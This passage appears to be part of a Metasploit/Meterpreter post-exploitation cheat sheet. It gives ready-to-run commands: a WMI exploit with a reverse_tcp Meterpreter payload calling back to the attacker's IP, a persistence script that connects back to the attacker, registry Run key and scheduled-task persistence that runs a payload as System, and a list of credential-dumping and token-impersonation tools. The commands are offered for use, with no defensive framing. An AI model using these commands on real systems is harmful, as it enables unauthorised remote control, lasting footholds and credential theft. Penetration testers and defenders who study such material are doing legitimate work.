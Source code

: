 ### WMI Exec
```msf
use exploit/windows/local/wmi
set RHOSTS [target]
set USERNAME [username]
set PASSWORD [password]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your_ip]
run
```

## Persistence

### Meterpreter Service
```meterpreter
# Create a service
run persistence -X -i 10 -p [port] -r [your_ip]

# List existing services
reg enumkey -k HKLM\\SYSTEM\\CurrentControlSet\\services
```

### Registry Run Keys
```meterpreter
# Add to startup
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v [name] -d '[command]'

# View startup programs
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v [name]
```

### Scheduled Tasks
```meterpreter
# Create a scheduled task
schtasks /create /tn "Update" /tr "C:\path\to\payload.exe" /sc onlogon /ru System
```

## 🛠 Tools

### Post-Exploitation Modules
- **mimikatz**: Credential dumping
- **kiwi**: Mimikatz in Meterpreter
- **incognito**: Token impersonation
- **powershell**: Run PowerShell commands

### External Tools
- **BloodHound**: AD enumeration
- **PowerSploit**: PowerShell post-exploitation
- **Empire**: Post-exploitation framework
